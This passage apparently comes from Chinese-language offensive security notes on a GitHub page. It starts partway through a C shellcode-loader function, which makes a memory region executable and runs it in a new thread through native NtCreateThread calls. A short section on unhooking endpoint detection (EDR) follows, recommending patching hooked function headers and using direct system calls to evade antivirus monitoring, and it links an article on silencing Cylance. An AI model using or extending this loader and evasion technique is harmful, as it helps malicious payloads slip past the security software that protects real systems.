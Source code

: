 ```c
	CLIENT_ID ReturnTid = { 0 };

	if (MyInitTeb(&InitialTeb) != 0) {
		return -1;
	}

	if (MyInitContext(
		&NewThreadContext,
		(PVOID)lpvAddr,
		NULL,
		InitialTeb.StackBase) != 0)
	{
		return -1;
	}
	InitializeObjectAttributes(&ObjAttr2, NULL, 0, NULL, NULL);
	status = ZwProtectVirtualMemory(GetCurrentProcess(), &lpvAddr, &Size, PAGE_EXECUTE, &OldProtection);

	status = NtCreateThread(
		&ThreadHandle,
		THREAD_ALL_ACCESS,
		&ObjAttr2,
		GetCurrentProcess(),
		&ReturnTid,
		&NewThreadContext,
		&InitialTeb,
		FALSE);

	WaitForSingleObject(ThreadHandle, INFINITE);
	//ULONG OldProtection;
	//status = ZwProtectVirtualMemory(GetCurrentProcess(), &lpvAddr, &Size, PAGE_EXECUTE, &OldProtection);

	//HANDLE s;
	//s = CreateThread(0, 0, lpvAddr, NULL, 0, 0);
	
	//WaitForSingleObject(s, INFINITE);
	return 0;
}
```

### Unhook EDR
杀软会hook关键函数,可以修改函数的头部来脱钩
另外 可以使用`系统直接调用`,绕过杀软对一些脱钩过程中使用的函数的hook

https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/
![](https://i.loli.net/2021/01/18/KL4IJC3vYRsZQoz.jpg)
![-w947](https://i.loli.net/2021/01/18/K9RPtFXeNL3UWyx.jpg)
![-w548](https://i.loli.net/2021/01/18/Isw9zr6GDNKqBPe.jpg)
